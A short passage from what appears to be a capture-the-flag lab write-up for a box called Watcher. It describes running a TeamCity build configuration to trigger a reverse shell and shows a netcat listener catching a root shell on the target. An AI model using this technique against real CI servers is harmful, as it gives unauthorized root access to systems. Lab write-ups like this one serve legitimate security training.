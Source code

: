 Subsequently, once created we need to `Run` the build configuration, which will establish a reverse shell connection to us:

![Watcher-56.png](assets/Watcher-56.png)

After a few seconds, we will have a reverse shell as the `root` user:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ nc -nvlp 9001          
listening on [any] 9001 ...

root@watcher:/root/TeamCity/buildAgent/work/20d69593262d95b4# id  
uid=0(root) gid=0(root) groups=0(root)
```
